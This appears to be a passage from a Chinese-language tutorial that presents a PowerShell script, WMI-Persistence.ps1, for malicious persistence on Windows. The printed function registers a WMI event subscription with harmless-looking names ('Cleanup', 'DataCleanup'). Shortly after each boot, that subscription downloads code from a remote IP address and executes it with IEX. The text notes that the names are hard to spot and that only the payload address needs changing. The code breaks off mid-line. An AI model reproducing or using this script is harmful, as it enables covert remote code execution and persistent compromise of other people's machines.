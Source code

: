 
  

    如下是 WMI-Persistence.ps1 脚本，代码非常简单，三个函数分别是插入指定 wmi 事件，删除指定 wmi 事件，然后查询 wmi 事件，需要改的地方就一处，即加粗的远程有效负载地址。

    当然，事件名也可以改成自己想要的，不过即使不改也没啥太大关系，一眼看不太出来。

```
#
1.  function Install-Persistence{
2.   
3.     $Payload = "<strong>((new-object net.webclient).downloadstring('http://192.168.3.68:80/logo.gif'))</strong>"
4.     $EventFilterName = 'Cleanup'
5.     $EventConsumerName = 'DataCleanup'
6.     $finalPayload = "<strong>powershell.exe -nop -c `"IEX $Payload`"</strong>"
7.   
8.     # Create event filter
9.     $EventFilterArgs = @{
10.       EventNamespace = 'root/cimv2'
11.       Name = $EventFilterName
12.       Query = "SELECT * FROM __InstanceModificationEvent WITHIN 60 WHERE TargetInstance ISA 'Win32_PerfFormattedData_PerfOS_System' AND TargetInstance.SystemUpTime >= 240 AND TargetInstance.SystemUpTime < 325"
13.       QueryLanguage = 'WQL'
14.   }
15. 
16.   $Filter = Set-WmiInstance -Namespace root/subscription -Class __EventFilter -Arguments $EventFilterArgs
17. 
18.   # Create CommandLineEventConsumer
19.   $CommandLineConsumerArgs = @{
20.       Name = $EventConsumerName
21.       CommandLineTemplate = $finalPayload
22.   }
23.   $Consumer = Set-WmiInstance -Namespace root/subscription -Class CommandLineEventConsumer -Arguments $CommandLineConsumerArgs
24. 
25.   # Create FilterToConsumerBinding
26.   $FilterToConsumerArgs = @{
27.       Filter = $Filter
28.       Consumer = $Consumer
29.   }
30.   $FilterToConsumerBinding = Set-WmiInstance -Namespace root/subscription -Class __FilterToConsumerBinding -Arguments $FilterToConsumerArgs
31. 
32.   #Confirm the Event Filter was created
33.   $EventCheck = Get-WmiObject -Namespace root/subscription -Class __EventFilter -Filter "Name = '$EventFilterName'"
34.   if ($EventCheck -ne $null) {
35.       Write-Host "Event Filter $EventFilterName successfully written to host"
36.   }
37. 
38.   #Confirm the Event Consumer was created
39.   $ConsumerCheck = Get-WmiObject -Namespace root/subscription -Class CommandLineEventConsumer -Filter "Name = '$EventConsumerName'"
40.   if ($ConsumerCheck -ne $null) {
41.       Write-Host "Event Consumer $EventConsumerName successfully written to host"
42.   }
43. 
44.   #Confirm the FiltertoConsumer was created
45.   $BindingCheck = Get-WmiObject -Namespace root/subscription -Class __FilterToConsumerBinding -Filter "Filter = ""__eventfilter.
46.   if ($BindingCheck -ne $null){
47.       Write-Host "Filter To Consumer Binding successfully written to host"
```